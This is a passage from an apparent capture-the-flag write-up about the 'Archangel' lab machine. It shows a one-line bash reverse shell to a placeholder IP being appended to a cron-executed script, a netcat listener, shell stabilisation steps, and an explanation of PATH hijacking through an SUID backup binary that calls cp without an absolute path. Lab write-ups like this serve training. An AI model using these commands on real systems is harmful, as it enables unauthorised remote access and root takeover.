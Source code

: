 Perfect we have permission to write on this file. So, we can add a reverse shell code there and after a minute we'll receive a shell with the archangel user.

```
echo bash -i >& /dev/tcp/<your-ip>/4444 0>&1 >> helloworld.sh
```

start a listener and wait for a little bit

```
nc -lvnp 4444
```

![archangel-rev](/assets/images/thm/archangel/archangel-rev.png)

Here we go. Again stabilize our shell

```
/usr/bin/script -qc /bin/bash /dev/null
control+z to background
stty raw -echo
fg
export TERM=xterm
```

Now, listing the files in the archangel's home directory we can find a backup file owned by root. I used the `file` command to see what is this file

![file-backup](/assets/images/thm/archangel/file-backup.png)

It's a file with SUID(SUID allows an alternate user to run an executable with the same permissions as the owner of the file) and ELF(executable and link format). Executing the file returns us an error related to missing files, so let's the execute `strings` command te see any human readable strings in the content of the file.

```
strings backup
```

![strings-backup](/assets/images/thm/archangel/strings-backup.png)

The file tries to execute the cp command without absolute path, which means it search for cp commamnd an each directory, which means we can create our own cp file in this directory and the backup file will catch the first cp file which it finds. So, as the file can be executed with the permission with the its owner we can call a shell that will return us a root shell.
